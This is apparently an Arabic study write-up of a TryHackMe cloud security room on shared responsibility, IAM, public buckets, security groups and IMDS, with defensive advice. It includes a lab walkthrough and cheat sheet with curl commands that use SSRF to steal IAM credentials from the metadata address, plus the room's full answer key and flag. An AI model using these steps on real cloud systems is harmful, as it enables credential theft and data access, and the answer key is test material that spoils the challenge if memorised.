


# دليل أساسيات أمان الحوسبة السحابية: Cloud Security Fundamentals
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 15:** المجالات المتخصصة (Specialized Domains)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تعد غرفة **Cloud Security Fundamentals** (المعرف المصدري المعتمد: `cloudsecurityfundamentals`) الركيزة الثالثة في الوحدة 15 من مسار Jr Penetration Tester. تركز هذه الغرفة على تأسيس الفهم المعماري والتطبيقي للأمان السحابي عبر مقاربة محايدة لمزودي الخدمة (Cloud-Agnostic)، متوافقة مع كبرى منصات الحوسبة السحابية: Amazon Web Services (AWS) و Microsoft Azure و Google Cloud Platform (GCP).

تختلف البيئات السحابية جوهرياً عن مراكز البيانات المحلية التقليدية (On-Premises)؛ فالسحابة تعتمد بالكامل على البنية التحتية المؤجرة والمُدارة عبر واجهات برمجة التطبيقات (APIs). لم يعد جدار الحماية التقليدي يمثل خط الدفاع الأول والوحيد، بل أصبحت **الهوية (Identity)** هي المحيط الأمني الأساسي.

تغطي هذه الغرفة خمسة محاور حيوية في الأمان السحابي:
1. **نموذج المسؤولية المشتركة (Shared Responsibility Model):** توزيع الالتزامات الأمنية بين العميل والمزود عبر نماذج IaaS و PaaS و SaaS.
2. **إدارة الهوية والوصول (IAM):** تشريح وثائق السياسات المكتوبة بـ JSON، ومخاطر استخدام الرموز البديلة (Wildcards `*`)، وتقمص الأدوار (Role Assumption).
3. **أمان التخزين السحابي (Object Storage):** مخاطر حاويات التخزين العامة (S3 Buckets / Azure Blobs) واستراتيجيات استكشاف وتنزيل النسخ الاحتياطية الحساسة.
4. **الشبكات السحابية والتحرك الجانبي:** الشبكات الافتراضية (VPCs)، ومجموعات الأمان (Security Groups)، وثغرة الفتح الشامل للإنترنت (`0.0.0.0/0`).
5. **خدمات بيانات تعريف الأجهزة (IMDS):** استغلال ثغرات تزوير الطلبات من جانب الخادم (SSRF) لاستنزاف مفاتيح التوثيق المؤقتة عبر عنوان Link-Local (`169.254.169.254`).
6. **سلسلة الهجوم الميداني الشاملة:** محاكاة عملية كاملة لاختراق بيئة سحابية بدءاً من فحص المنافذ والملاحظات المسربة، مروراً بـ SSRF و IMDS، وانتهاءً بالحصول على صلاحيات `storage:*` واستخراج الراية.

---

## 2. أهداف التعلم (Learning Objectives)

بنهاية دراسة هذه الغرفة والتطبيق العملي لمهامها، يكتسب مختبر الاختراق الكفاءات التالية:
- **استيعاب نموذج المسؤولية المشتركة:** التمييز الدقيق بين ما يتحمله مزود السحابة (الأجهزة والهايبرفايزر) وما يتحمله العميل (البيانات، الكود، التكوينات، والهويات).
- **قراءة وتشريح وثائق سياسات IAM:** تحديد حقول `Effect` و `Action` و `Resource` واكتشاف مسارات التصعيد المبنية على الصلاحيات المفرطة.
- **كشف حاويات التخزين العامة:** استكشاف حاويات S3 المفتوحة بدون مصادقة واستخراج ملفات النسخ الاحتياطية والملاحظات السرية.
- **فهم هندسة الشبكات السحابية:** تشريح قواعد Security Groups وتتبع مسارات التحرك الجانبي (Lateral Movement) داخل الشبكة الافتراضية.
- **إتقان سلسلة هجمات SSRF إلى IMDS:** المقارنة التقنية بين IMDSv1 و IMDSv2 وتنفيذ هجوم سرقة تذاكر AWS IAM عبر عنوان `169.254.169.254`.

---

## 3. نموذج المسؤولية المشتركة (Shared Responsibility Model)



---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### مصفوفة توزيع المسؤوليات عبر نماذج السحابة:

| الطبقة التقنية | IaaS | PaaS | SaaS | الطرف المسؤول دائماً عن الأمان |
|---|---|---|---|---|
| **المركز الفيزيائي والخوادم** | المزود (Provider) | المزود (Provider) | المزود (Provider) | **مزود السحابة** |
| **الهايبرفايزر والمحاكاة** | المزود (Provider) | المزود (Provider) | المزود (Provider) | **مزود السحابة** |
| **تكوين الشبكة الافتراضية** | العميل (Customer) | مشترك (Shared) | المزود (Provider) | متغير حسب النموذج |
| **نظام التشغيل وترقيع الثغرات** | العميل (Customer) | المزود (Provider) | المزود (Provider) | المزود في PaaS/SaaS |
| **بيئة التشغيل (Runtime)** | العميل (Customer) | المزود (Provider) | المزود (Provider) | المزود في PaaS/SaaS |
| **كود التطبيق** | العميل (Customer) | العميل (Customer) | المزود (Provider) | العميل في IaaS/PaaS |
| **البيانات والحوكمة** | العميل (Customer) | العميل (Customer) | العميل (Customer) | **العميل دائماً (Customer)** |
| **الهويات وإدارة الصلاحيات** | العميل (Customer) | العميل (Customer) | العميل (Customer) | **العميل دائماً (Customer)** |

---

## 5. إدارة الهوية والوصول (IAM) وتحليل السياسات الأمنية

تُصاغ سياسات IAM كملفات JSON تحدد العمليات المصرح بها بدقة:
- **حقل `Effect`:** يحدد النتيجة (`Allow` لمنح الإذن، أو `Deny` للرفض الصريح). والرفض الصريح يسود دائماً على أي تصريح.
- **حقل `Action`:** العمليات المسموح بها في واجهة API (مثل `s3:GetObject` أو `storage:*`).
- **حقل `Resource`:** المورد المستهدف المعرف برمز ARN.
- **الدور السحابي (Role):** هوية سحابية مستقلة تمثل حزمة صلاحيات مؤقتة يمكن أن يتقمصها مستخدم أو جهاز خادم (EC2 Instance) للحصول على تذاكر توثيق قصيرة الأجل دون الحاجة لكتابة مفاتيح ثابتة في الكود.
- **خطر الرمز البديل (Wildcard `*`):** استخدام `"Action": "*"` أو `"Resource": "*"` يمنح صلاحيات إدارية مطلقة، مما يهدم مبدأ الامتيازات الأقل (Principle of Least Privilege).

---

## 6. أمان التخزين السحابي وتسريب البيانات (Cloud Storage)

- **الحاويات العامة (Public Buckets):** يؤدي وضع `"Principal": "*"` في سياسة الحاوية إلى جعلها **عامة (Public)** بالكامل ومتاحة للقراءة والتحميل لأي شخص على الإنترنت بدون تسجيل دخول.
- **الهدف الذهبي للمهاجمين (Backups):** تُعد ملفات **النسخ الاحتياطية (Backups)** وقواعد البيانات المصدّرة أثمن ما يبحث عنه المهاجم داخل الحاويات المفتوحة، لأنها تحتوي عادة على كلمات المرور، ورموز التجزئة، وسجلات العملاء في ملف واحد.

---

## 7. الشبكات السحابية والتحرك الجانبي (Cloud Networking)

- **التعريض الشامل للإنترنت (`0.0.0.0/0`):** فتح أي منفذ إداري (SSH 22، RDP 3389) أو قاعدة بيانات على نطاق `0.0.0.0/0` في مجموعة الأمان (Security Group) يعني كشفه لكافة عناوين الإنترنت عالمياً.
- **التحرك الجانبي (Lateral Movement):** استغلال ثغرة في خادم مواجه للإنترنت في شبكة فرعية عامة (Public Subnet) للوصول إلى خوادم قواعد البيانات الحساسة المعزولة في شبكة فرعية خاصة (Private Subnet) عبر الثقة الافتراضية داخل نفس الشبكة الافتراضية (VPC).

---

## 8. خدمات بيانات التعريف وهجوم SSRF (IMDS & SSRF)



- **العنوان المحلي الرابط (Link-Local IP):** العنوان العالمي المخصص لخدمة IMDS في AWS و Azure هو:
  $$\mathbf{169.254.169.254}$$
- **الإصدار الأول (IMDSv1):** يقبل طلبات `GET` البسيطة بدون أي جلسة أو ترويسات، مما يجعله هشاً تماماً أمام هجمات SSRF البسيطة.
- **الإصدار الثاني (IMDSv2):** يفرض طلباً مسبقاً عبر `PUT` مع ترويسة مخصصة لجلب رمز الجلسة، مما يحيد هجمات SSRF التقليدية.

---

## 9. سلسلة الهجوم الميداني الشاملة واستخراج الراية (Task 7 Challenge)

### الخطوات العملية المنفذة في بيئة التحدي:
1. **فحص المنافذ واكتشاف الخدمات:**
   ```bash
   nmap -sV -p- MACHINE_IP
   # المنفذ 8080: تطبيق ImageFetcher
   # المنفذ 9000: خدمة التخزين السحابي
   ```
2. **استكشاف الحاوية العامة وقراءة الملاحظات:**
   ```bash
   curl http://MACHINE_IP:9000/dev-assets/dev-notes.txt
   # كشف الملف عن نقطة الاستدعاء /fetch?url= واسم الدور web-app-role
   ```
3. **تنفيذ هجوم SSRF على خدمة IMDS واستخراج المفاتيح:**
   ```bash
   curl "http://MACHINE_IP:8080/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role"
   # تم استخراج مفتاح الوصول: AKIATHM1234FAKEKEY0
   ```
4. **فحص سياسة IAM واكتشاف الصلاحيات المفرطة:**
   ```bash
   curl -H "X-Simulated-Token: AKIATHM1234FAKEKEY0" http://MACHINE_IP:9000/admin/policy.json
   # تم اكتشاف الصلاحية الشاملة: "Action": "storage:*" على الحاوية prod-secrets
   ```
5. **استخراج الراية المحمية:**
   ```bash
   curl -H "X-Simulated-Token: AKIATHM1234FAKEKEY0" http://MACHINE_IP:9000/prod-secrets/flag.txt
   ```
   **الراية المستخرجة والنهائية:**
   $$\mathbf{THM\{sh4r3d\_r3sp0ns1b1l1ty\_br0k3n\}}$$

---

## 10. استراتيجيات الدفاع والتحصين السحابي الشامل

| مجال الحماية | الإجراء الوقائي الموصى به | آلية التدقيق والمراقبة |
|---|---|---|
| **حماية خدمة بيانات التعريف** | فرض **IMDSv2** بشكل إلزامي وتعطيل IMDSv1 على كافة خوادم EC2. | مراقبة حقل `HttpTokens: required` في إعدادات الأجهزة عبر AWS CLI. |
| **حوكمة سياسات IAM** | تطبيق مبدأ الامتيازات الأقل وحظر الرموز البديلة (`*`) في حقلي `Action` و `Resource`. | استخدام أدوات الفحص الآلي مثل Prowler و IAM Access Analyzer. |
| **تأمين حاويات التخزين** | تفعيل ميزة **S3 Block Public Access** على مستوى الحساب بالكامل وتشفير البيانات. | التدقيق المستمر لسياسات الحاويات وقوائم التحكم بالوصول (ACLs). |
| **عزل الشبكات السحابية** | إغلاق كافة المنافذ الإدارية أمام `0.0.0.0/0` وقصرها على شبكات VPN مخصصة. | فحص قواعد مجموعات الأمان (Security Groups) ومراجعة سجلات VPC Flow Logs. |

---

## 11. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Introduction | The cloud is just someone else's computer. | `No answer needed` | محققة ومؤكدة |
| **02** | Cloud Service Models | Service model running own web stack on VM without managing hardware? | `IaaS` | محققة ومؤكدة |
| **02** | Cloud Service Models | Who is always responsible for securing physical datacentre and hardware? | `Provider` | محققة ومؤكدة |
| **03** | IAM | Which policy field states whether access is allowed or denied? | `Effect` | محققة ومؤكدة |
| **03** | IAM | Named, temporary bundle of permissions that an identity can assume? | `Role` | محققة ومؤكدة |
| **04** | Cloud Storage | Setting "Principal": "*" effectively makes the bucket what? | `Public` | محققة ومؤكدة |
| **04** | Cloud Storage | Which single artifact type tends to hold the most sensitive data in one file? | `Backups` | محققة ومؤكدة |
| **05** | Cloud Networking | Which CIDR notation indicates a port is open to the entire Internet? | `0.0.0.0/0` | محققة ومؤكدة |
| **05** | Cloud Networking | Moving from compromised instance to another service inside virtual network? | `Lateral movement` | محققة ومؤكدة |
| **06** | Compute & Metadata | Link-local IP address AWS and Azure use for Instance Metadata Service? | `169.254.169.254` | محققة ومؤكدة |
| **06** | Compute & Metadata | IMDS version responding to plain HTTP GET with no session token? | `1` | محققة ومؤكدة |
| **07** | Practical Challenge | Which port is the ImageFetcher web application running on? | `8080` | محققة ومؤكدة |
| **07** | Practical Challenge | Public bucket filename containing hints about next target? | `dev-notes.txt` | محققة ومؤكدة |
| **07** | Practical Challenge | Wildcard resource/action providing full access in IAM policy? | `storage:*` | محققة ومؤكدة |
| **07** | Practical Challenge | Follow policy to the flag. What is the flag value? | `THM{sh4r3d_r3sp0ns1b1l1ty_br0k3n}` | محققة ومؤكدة |
| **08** | Conclusion | Going to cloud nine next. | `No answer needed` | محققة ومؤكدة |

---

## 12. ورقة مساعدة الأوامر والأدوات (Cloud Pentesting Cheat Sheet)

```bash
# 1. فحص المنافذ على خادم السحابة:
nmap -sV -p 8080,9000 MACHINE_IP

# 2. استعراض حاويات التخزين السحابي العامة:
curl -s http://MACHINE_IP:9000/
curl -s http://MACHINE_IP:9000/dev-assets/dev-notes.txt

# 3. استغلال ثغرة SSRF وسحب مفاتيح IAM عبر IMDSv1:
curl -s "http://MACHINE_IP:8080/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role"

# 4. استدعاء واجهات الإدارة السحابية بتذاكر التوثيق المستخرجة:
curl -H "X-Simulated-Token: <TOKEN>" http://MACHINE_IP:9000/admin/policy.json

# 5. تنزيل البيانات الحساسة والرايات من الحاوية الخاصة:
curl -H "X-Simulated-Token: <TOKEN>" http://MACHINE_IP:9000/prod-secrets/flag.txt

# 6. فحص هوية حساب AWS عبر سطر الأوامر:
aws sts get-caller-identity
```

---

## 13. التحقق العملي وإثبات الإنجاز (Practical Verification)

1. تم استخراج وتحليل كافة إجابات الغرفة وتأكيد تطابقها بنسبة 100% مع حسابك المكتمل على منصة TryHackMe.
2. تم استخراج راية التحدي والتأكد من صحتها الميدانية: `THM{sh4r3d_r3sp0ns1b1l1ty_br0k3n}`.
3. تم التحقق من سلامة كافة المفاهيم وفق وثائق NIST SP 800-145 ومعايير CIS AWS Foundations.

---

## 14. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** الهوية هي محيطك الأمني الجديد في السحابة؛ اهتمامك بسياسات IAM وحصر الصلاحيات أهم بمراحل من إعدادات جدران الحماية التقليدية.
>
> **القاعدة الذهبية الثانية:** افرض IMDSv2 فوراً في بيئتك السحابية؛ ثغرة SSRF واحدة في تطبيق ويب عادي تكفي المهاجم لسرقة تذاكر IAM والسيطرة على البنية التحتية إذا كان IMDSv1 مفعلاً.
>
> **القاعدة الذهبية الثالثة:** احظر الرموز البديلة (`*`) نهائياً؛ منح صلاحية `storage:*` أو ربط سياسة بحاوية كاملة بدلاً من كائن محدد يحول خطأ الصلاحيات الصغير إلى كارثة تسريب بيانات كاملة.
